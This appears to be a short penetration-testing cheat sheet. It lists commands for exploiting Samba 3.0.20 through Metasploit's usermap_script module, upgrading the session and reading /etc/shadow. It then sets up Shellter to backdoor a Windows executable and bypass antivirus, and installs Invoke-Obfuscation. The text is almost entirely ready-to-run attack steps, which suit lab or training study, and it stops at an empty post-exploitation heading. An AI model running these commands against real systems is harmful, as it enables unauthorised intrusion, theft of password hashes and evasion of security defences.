 ```
# Targeting SAMBA
nmap -sV -p 445 <TARGET_IP>

nc -nv <TARGET_IP> 445

searchsploit samba 3.0.20

# msfconsole
use auxiliary/scanner/smb/smb_version
setg RHOSTS <TARGET_IP>
run

use exploit/multi/samba/usermap_script
run
background
sessions -u 1
sessions 2

cat /etc/shadow
```

**Obfuscation**



```
# SHELLTER - Install
sudo apt update && sudo apt install -y shellter
sudo dpkg --add-architecture i386 && sudo apt update && sudo apt -y install wine32
rm -r ~/.wine

cd /usr/share/windows-resources/shellter
sudo shellter

mkdir AVBypass
cd AVBypass
cp /usr/share/windows-binaries/vncviewer.exe .
# Proceed in Sellter window
```

```
# INVOKE-OBFUSCATION PowerShell script - Install
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell

pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```

#### Post-Exploitation
